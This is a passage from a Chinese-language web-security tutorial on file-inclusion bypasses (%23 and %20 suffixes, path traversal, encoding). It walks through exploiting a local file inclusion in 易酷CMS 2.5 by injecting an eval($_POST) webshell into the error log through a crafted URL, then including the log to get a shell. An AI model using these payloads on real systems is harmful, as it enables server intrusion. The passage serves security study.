 ![image-20220805091001770](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805091001770.png)

#### ＃号绕过

因为 \# 表示书签

`http://127.0.0.1/include.php?filename=http://www.xiaodi8.com/readme.txt%23`

注意`#`要编码为`%23`

![image-20220805091124899](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805091124899.png)

#### 空格绕过

`http://127.0.0.1/include.php?filename=http://www.xiaodi8.com/readme.txt%20`

注意空格要编码为`%20`

![image-20220805091238408](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805091238408.png)

### 指定前缀绕过

使用相对路径 ../../ 来返回上一目录，被称为目录遍历(Path Traversal)。

例如 `?file=../../phpinfo/phpinfo.php`

### 编码绕过

服务器端常常会对于`../`等做一些过滤，可以用一些编码来进行绕过。

## 实例

### 某CMS程序文件包含利用-黑盒
易酷CMS是一款影片播放CMS。该CMS2.5版本存在本地文件包含漏洞。我们可以利用这个漏洞，利用报错信息将一句话木马写入日志中。然后利用文件包含漏洞包含该日志文件，再用菜刀连接拿shell。

我们通过访问下面的url，将一句话木马写入日志文件中。由于文件包含时会自动将文件内容解析为php代码，所以下面的URL中并没有使用`<?php ?>`。该URL会发生报错：

`http://192.168.10.22/index.php?s=my/show/id/{~eval($_POST[x])}`

![image-20220805105735348](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805105735348.png)

然后就生成了相应的日志文件，文件存储有URL中的恶意代码：

![image-20220805105845794](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805105845794.png)

该日志是以时间日期命名的，测试一句话木马：

`http://192.168.10.22/index.php?s=my/show/id/../temp/logs/20_08_14.log`

![image-20220805110122484](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805110122484.png)

用菜刀连接该日志文件，得到shell。

### CTF-南邮大
